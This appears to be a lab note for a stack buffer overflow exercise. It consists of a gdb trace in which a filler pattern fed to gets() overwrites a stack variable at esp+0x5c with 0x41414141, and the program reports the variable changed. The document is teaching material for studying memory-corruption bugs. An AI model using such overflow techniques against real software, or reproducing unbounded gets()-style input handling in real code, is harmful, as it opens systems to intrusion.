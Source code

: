 ## This is an example of success BOF, see the stack at offset `esp+0x5c` is being modified with `0x41414141`


0x804840c <main+24>:	call   0x804830c <gets@plt>
eax            0xbffff76c	-1073744020
ecx            0x137686b9	326534841
edx            0x1	1
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff750	0xbffff750
ebp            0xbffff7b8	0xbffff7b8
esi            0x0	0
edi            0x0	0
eip            0x804840c	0x804840c <main+24>
eflags         0x200286	[ PF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff750:	0xbffff76c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff760:	0xb7fd7ff4	0xb7ec6165	0xbffff778	0xb7eada75
0xbffff770:	0xb7fd7ff4	0x08049620	0xbffff788	0x080482e8
0xbffff780:	0xb7ff1040	0x08049620	0xbffff7b8	0x08048469
0xbffff790:	0xb7fd8304	0xb7fd7ff4	0x08048450	0xbffff7b8
0xbffff7a0:	0xb7ec6365	0xb7ff1040	0x0804845b	0x00000000

---

AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHAAAA
0x8048411 <main+29>:	mov    eax,DWORD PTR [esp+0x5c]
eax            0xbffff76c	-1073744020
ecx            0xbffff76c	-1073744020
edx            0xb7fd9334	-1208118476
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff750	0xbffff750
ebp            0xbffff7b8	0xbffff7b8
esi            0x0	0
edi            0x0	0
eip            0x8048411	0x8048411 <main+29>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff750:	0xbffff76c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff760:	0xb7fd7ff4	0xb7ec6165	0xbffff778	0x41414141
0xbffff770:	0x42424242	0x43434343	0x44444444	0x45454545
0xbffff780:	0x46464646	0x47474747	0x48484848	0x41414141
0xbffff790:	0x42424242	0x43434343	0x44444444	0x45454545
0xbffff7a0:	0x46464646	0x47474747	0x48484848	0x41414141

(check the `esp+0x5c` where we know it supposed to be overwritten)
(gdb) x/xw $esp+0x5c
0xbffff7ac:	0x41414141

---

(gdb) si
0x8048415 <main+33>:	test   eax,eax
eax            0x41414141	1094795585
ecx            0xbffff76c	-1073744020
edx            0xb7fd9334	-1208118476
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff750	0xbffff750
ebp            0xbffff7b8	0xbffff7b8
esi            0x0	0
edi            0x0	0
eip            0x8048415	0x8048415 <main+33>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff750:	0xbffff76c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff760:	0xb7fd7ff4	0xb7ec6165	0xbffff778	0x41414141
0xbffff770:	0x42424242	0x43434343	0x44444444	0x45454545
0xbffff780:	0x46464646	0x47474747	0x48484848	0x41414141
0xbffff790:	0x42424242	0x43434343	0x44444444	0x45454545
0xbffff7a0:	0x46464646	0x47474747	0x48484848	0x41414141

---

(gdb) si
0x8048417 <main+35>:	je     0x8048427 <main+51>
eax            0x41414141	1094795585
ecx            0xbffff76c	-1073744020
edx            0xb7fd9334	-1208118476
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff750	0xbffff750
ebp            0xbffff7b8	0xbffff7b8
esi            0x0	0
edi            0x0	0
eip            0x8048417	0x8048417 <main+35>
eflags         0x200206	[ PF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff750:	0xbffff76c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff760:	0xb7fd7ff4	0xb7ec6165	0xbffff778	0x41414141
0xbffff770:	0x42424242	0x43434343	0x44444444	0x45454545
0xbffff780:	0x46464646	0x47474747	0x48484848	0x41414141
0xbffff790:	0x42424242	0x43434343	0x44444444	0x45454545
0xbffff7a0:	0x46464646	0x47474747	0x48484848	0x41414141

---

(gdb) 
eax            0x41414141	1094795585
ecx            0xbffff76c	-1073744020
edx            0xb7fd9334	-1208118476
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff750	0xbffff750
ebp            0xbffff7b8	0xbffff7b8
esi            0x0	0
edi            0x0	0
eip            0x8048419	0x8048419 <main+37>
eflags         0x200206	[ PF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff750:	0xbffff76c	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff760:	0xb7fd7ff4	0xb7ec6165	0xbffff778	0x41414141
0xbffff770:	0x42424242	0x43434343	0x44444444	0x45454545
0xbffff780:	0x46464646	0x47474747	0x48484848	0x41414141
0xbffff790:	0x42424242	0x43434343	0x44444444	0x45454545
0xbffff7a0:	0x46464646	0x47474747	0x48484848	0x41414141
0xbffff7b0:	0x08048400	0x00000000	0xbffff838	0xb7eadc76
0x8048419 <main+37>:	mov    DWORD PTR [esp],0x8048500
0x8048420 <main+44>:	call   0x804832c <puts@plt>

---

(gdb) 
you have changed the 'modified' variable
eax            0x29	41
ecx            0xb7fd84c0	-1208122176
edx            0xb7fd9340	-1208118464
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff750	0xbffff750
ebp            0xbffff7b8	0xbffff7b8
esi            0x0	0
edi            0x0	0
eip            0x8048425	0x8048425 <main+49>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff750:	0x08048500	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff760:	0xb7fd7ff4	0xb7ec6165	0xbffff778	0x41414141
0xbffff770:	0x42424242	0x43434343	0x44444444	0x45454545
0xbffff780:	0x46464646	0x47474747	0x48484848	0x41414141
0xbffff790:	0x42424242	0x43434343	0x44444444	0x45454545
0xbffff7a0:	0x46464646	0x47474747	0x48484848	0x41414141
0xbffff7b0:	0x08048400	0x00000000	0xbffff838	0xb7eadc76
0x8048425 <main+49>:	jmp    0x8048433 <main+63>
0x8048427 <main+51>:	mov    DWORD PTR [esp],0x8048529

---

(gdb) 
eax            0x29	41
ecx            0xb7fd84c0	-1208122176
edx            0xb7fd9340	-1208118464
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff750	0xbffff750
ebp            0xbffff7b8	0xbffff7b8
esi            0x0	0
edi            0x0	0
eip            0x8048433	0x8048433 <main+63>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff750:	0x08048500	0x00000001	0xb7fff8f8	0xb7f0186e
0xbffff760:	0xb7fd7ff4	0xb7ec6165	0xbffff778	0x41414141
0xbffff770:	0x42424242	0x43434343	0x44444444	0x45454545
0xbffff780:	0x46464646	0x47474747	0x48484848	0x41414141
0xbffff790:	0x42424242	0x43434343	0x44444444	0x45454545
0xbffff7a0:	0x46464646	0x47474747	0x48484848	0x41414141
0xbffff7b0:	0x08048400	0x00000000	0xbffff838	0xb7eadc76
0x8048433 <main+63>:	leave  
0x8048434 <main+64>:	ret    

---

(gdb) 
eax            0x29	41
ecx            0xb7fd84c0	-1208122176
edx            0xb7fd9340	-1208118464
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff7bc	0xbffff7bc
ebp            0xbffff838	0xbffff838
esi            0x0	0
edi            0x0	0
eip            0x8048434	0x8048434 <main+64>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff7bc:	0xb7eadc76	0x00000001	0xbffff864	0xbffff86c
0xbffff7cc:	0xb7fe1848	0xbffff820	0xffffffff	0xb7ffeff4
0xbffff7dc:	0x0804824b	0x00000001	0xbffff820	0xb7ff0626
0xbffff7ec:	0xb7fffab0	0xb7fe1b28	0xb7fd7ff4	0x00000000
0xbffff7fc:	0x00000000	0xbffff838	0x53ddf175	0x798a0765
0xbffff80c:	0x00000000	0x00000000	0x00000000	0x00000001
0xbffff81c:	0x08048340	0x00000000	0xb7ff6210	0xb7eadb9b
0x8048434 <main+64>:	ret    
0x8048435:	nop

---

(gdb) 
eax            0x29	41
ecx            0xb7fd84c0	-1208122176
edx            0xb7fd9340	-1208118464
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff7c0	0xbffff7c0
ebp            0xbffff838	0xbffff838
esi            0x0	0
edi            0x0	0
eip            0xb7eadc76	0xb7eadc76 <__libc_start_main+230>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
0xbffff7c0:	0x00000001	0xbffff864	0xbffff86c	0xb7fe1848
0xbffff7d0:	0xbffff820	0xffffffff	0xb7ffeff4	0x0804824b
0xbffff7e0:	0x00000001	0xbffff820	0xb7ff0626	0xb7fffab0
0xbffff7f0:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
0xbffff800:	0xbffff838	0x53ddf175	0x798a0765	0x00000000
0xbffff810:	0x00000000	0x00000000	0x00000001	0x08048340
0xbffff820:	0x00000000	0xb7ff6210	0xb7eadb9b	0xb7ffeff4
0xb7eadc76 <__libc_start_main+230>:	mov    DWORD PTR [esp],eax
0xb7eadc79 <__libc_start_main+233>:	call   0xb7ec60c0 <*__GI_exit>
__libc_start_main (main=0x80483f4 <main>, argc=1, ubp_av=0xbffff864, init=0x8048450 <__libc_csu_init>, 
    fini=0x8048440 <__libc_csu_fini>, rtld_fini=0xb7ff1040 <_dl_fini>, stack_end=0xbffff85c) at libc-start.c:260
260	libc-start.c: No such file or directory.
	in libc-start.c
